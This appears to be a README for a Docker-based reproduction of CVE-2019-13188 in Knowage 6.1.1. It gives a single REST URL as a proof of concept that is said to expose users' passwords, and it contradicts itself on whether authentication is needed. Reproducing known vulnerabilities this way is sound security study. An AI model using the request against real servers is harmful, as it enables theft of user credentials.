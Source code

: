 # CVE-2019-13188

## About
* <https://nvd.nist.gov/vuln/detail/CVE-2019-13188>


## PoC / Exploit
* After authenticating access: <http://SERVER_IP:8080/knowage/restful-services/2.0/users?user_id=biadmin>
 

## Environment used

* Knowage 6.1.1

## Requirements
* git
* docker
* docker-compose
* At least **2GB RAM**

## Reproduction 
* Terminal
```bash
docker-compose up
```
* Web Browser
  * Go to <http://SERVER_IP:8080/knowage/restful-services/2.0/users?user_id=biadmin>, this provides access to users passwords 
  without authentication, 